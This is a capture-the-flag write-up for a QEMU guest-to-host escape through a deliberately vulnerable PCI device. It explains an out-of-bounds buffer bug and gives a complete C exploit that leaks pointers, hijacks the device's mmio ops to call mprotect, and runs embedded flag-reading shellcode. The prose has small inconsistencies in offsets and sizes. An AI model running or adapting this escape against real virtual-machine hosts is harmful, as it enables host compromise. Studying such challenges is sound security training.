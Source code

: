 # Solution

## Vulnerability

According to the source code or `maria_mmio_write`, you can set the `src` and `offset` freely through address 0x4 and 0x8.

```c
case 0x04:
    maria->state.src = val;
    break;
case 0x08:
    maria->state.off = val;
    break;
}
```

In addition, you can read/write to `buff[offset]` through accessing address 0x0:

```
case 0x0x0:
    cpu_physical_memory_rw(maria->state.src, &maria->buff[maria->state.off], BUFF_SIZE, 1);
```

```
case 0x00:
    cpu_physical_memory_rw(maria->state.src, &maria->buff[maria->state.off], BUFF_SIZE, 0);
```

Since you control the offset, if you set the offset to `0xff`, you can write at most `BUFF_SIZE` (0x100) bytes to &buff.

## Before you solve the challenge

1. The PCI device uses `cpu_physical_memory_rw`. Coincidentally,  the buffer size is 0x1000, which is exactly the same as `PAGE_SIZE`. This means that the buffer itself and data after the buffer might be mapped to different virtual memories!
    - Solution: [hugepage](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/performance_tuning_guide/s-memory-transhuge).

## Idea

1. First, you can set `src` to the contiguous pages and `offset` to `0xf0`. This way, after calling `mmio_read`, you can achieve out-of-bound read and obtain a bunch of pointers!
2. You can overwrite `mmio->ops` with a fake `ops` to change the behavior of `mmio->ops->read` and `mmio->ops->write`. In my case, I changed `mmio->ops->write` to `mprotect`, and `mmio->ops->read` to my shellcode that executes ORW
3. Invoke `mprotect` using `mmio_write` and the shellcode using `mmio_read`

## Exploit

```c
#include <stdio.h>
#include <string.h>
#include <fcntl.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>
#include <sys/io.h>
#include <sys/types.h>
#include <inttypes.h>

unsigned char *mmio_mem;

#define PAGE_SIZE 0x1000

void mmio_write(uint32_t addr, uint32_t value) {
    *(uint32_t *)(mmio_mem + addr) = value;
}

uint32_t mmio_read(uint32_t addr) {
    return *(uint32_t *)(mmio_mem + addr);
}

void set_src(uint32_t value) {
    mmio_write(0x04, value);
}

void set_off(uint32_t value) {
    mmio_write(0x08, value);
}

void get_buff() {
    mmio_read(0x00);
}

void set_buff() {
    mmio_write(0x00, 0);
}

uint64_t gva2gpa(void *addr){
    uint64_t page = 0;
    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd < 0) {
        fprintf(stderr, "[!] open error in gva2gpa\n");
        exit(1);
    }
    lseek(fd, ((uint64_t)addr / PAGE_SIZE) * 8, SEEK_SET);
    read(fd, &page, 8);
    return ((page & 0x7fffffffffffff) * PAGE_SIZE) | ((uint64_t)addr & 0xfff);
}

int main() {
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:05.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1) {
        fprintf(stderr, "[!] Cannot open /sys/devices/pci0000:00/0000:00:05.0/resource0\n");
        exit(1);
    }
    mmio_mem = mmap(NULL, PAGE_SIZE * 4, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED) {
        fprintf(stderr, "[!] mmio error\n");
        exit(1);
    }
    printf("[*] mmio done\n");

    // Set huge page
    system("sysctl vm.nr_hugepages=32");
    system("cat /proc/meminfo | grep -i huge");

    char *buff;
    uint64_t buff_gpa;
    while (1) {
        buff = mmap(0, 2 * PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS | MAP_NONBLOCK, -1, 0);
        if (buff < 0) {
            fprintf(stderr, "[!] cannot mmap buff\n");
            exit(1);
        }
        memset(buff, 0, 2 * PAGE_SIZE);
        buff_gpa = gva2gpa(buff);
        uint64_t buff_gpa_1000 = gva2gpa(buff + PAGE_SIZE);
        if (buff_gpa + PAGE_SIZE == buff_gpa_1000) {
            break;
        }
    }
    printf("[*] buff virtual address = %p\n", buff);
    printf("[*] buff physical address = %p\n", buff_gpa);
    
    set_src(buff_gpa);
    set_off(0xf0);
    get_buff();

    uint64_t *buff_u64 = (uint64_t *)buff;
    uint64_t maria_buff_addr = buff_u64[0x3fa] - 0x20b8;
    uint64_t maria_addr = maria_buff_addr - 0xa30;
    //uint64_t qemu_base = buff_u64[0x3eb] - 0xfc26a0;
    uint64_t qemu_base = buff_u64[0x3eb] - 0xf1ff80;

    //uint64_t mprotect_plt = qemu_base + 0x31f880;
    uint64_t mprotect_plt = qemu_base + 0x30c400;


    printf("[*] maria->buff address = %p\n", maria_buff_addr);
    printf("[*] maria address = %p\n", maria_addr);
    printf("[*] qemu base address = %p\n", qemu_base);
    printf("[*] mprotect@plt address = %p\n", mprotect_plt);

    buff_u64[0x0] = maria_buff_addr + 0x4f0;
    //buff_u64[0x0] = 0xdeadbeefcafebabe;
    buff_u64[0x1] = mprotect_plt;

    /* shellcode */
    char shellcode[] = {
        0xeb, 0x10, 0x2f, 0x68, 0x6f, 0x6d, 0x65, 0x2f, 0x75, 0x73, 0x65, 0x72,
        0x2f, 0x66, 0x6c, 0x61, 0x67, 0x00, 0x6a, 0x02, 0x58, 0x48, 0x8d, 0x3d,
        0xe6, 0xff, 0xff, 0xff, 0x31, 0xf6, 0x0f, 0x05, 0x48, 0x97, 0x31, 0xc0,
        0x54, 0x5e, 0x6a, 0x70, 0x5a, 0x0f, 0x05, 0x48, 0x92, 0x6a, 0x01, 0x58,
        0x6a, 0x01, 0x5f, 0x54, 0x5e, 0x0f, 0x05, 0x48, 0x31, 0xff, 0x6a, 0x3c,
        0x58, 0x0f, 0x05
    };
    memcpy(&buff_u64[0x80], shellcode, sizeof(shellcode));

    /* overwrite maria->mmio.ops and maria->mmio.opaque */
    buff_u64[0x3ec] = maria_buff_addr & ~0xfff;             // maria->mmio.opaque
    buff_u64[0x3eb] = maria_buff_addr + 0xf0;               // maria->mmio.ops
    buff_u64[0x3eb - (maria_addr & 0xfff) / 8] = maria_buff_addr + 0xf0;// (MariaState *)(maria_addr & 0xfff)->mmio.ops

    set_src(buff_gpa);
    set_off(0xf0);
    set_buff();

    mmio_write(0x2000, 0x7);
    mmio_read(0x0);
}
```
